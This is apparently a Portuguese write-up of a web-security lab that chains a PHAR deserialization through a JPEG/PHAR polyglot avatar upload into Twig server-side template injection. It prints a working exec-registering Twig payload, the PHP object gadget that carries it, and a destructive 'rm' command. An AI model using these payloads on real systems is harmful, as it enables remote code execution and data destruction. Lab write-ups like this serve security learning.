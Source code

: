 #ctf 

Ao fazer o upload de uma imagem, o link para acessar ela é `/cgi-bin/avatar.php?avatar=wiener`. O diretório `cgi-bin` guarda scripts CGI (Common Gateway Interface) que são programas executáveis que ajudam a fornecer conteúdo dinâmico.

Através deste diretório é possível acessar dois scripts: `CustomTemplate.php` e `Blog.php`.

No código de `Blog.php` é usado um template engine (Twig) que é possível usar um payload de **server-side template injection** para executar um código remoto.

```PHP
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
```

Criando um código malicioso:

```PHP
class CustomTemplate {} 
class Blog {} 
$object = new CustomTemplate; 
$blog = new Blog; 
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}'; 
$blog->user = 'user'; 
$object->template_file_path = $blog;
```

Para enviar esse arquivo, é utilizado a funcionalidade de upload de avatar, porém, ela só aceita arquivos JPG. Para burlar e enviar um PHAR + JPEG (arquivo poliglota) usei este [repositório](https://github.com/kunte0/phar-jpg-polyglot).

Fazendo o upload do arquivo poliglota e acessando em `/cgi-bin/avatar.php?avatar=phar://wiener`. GG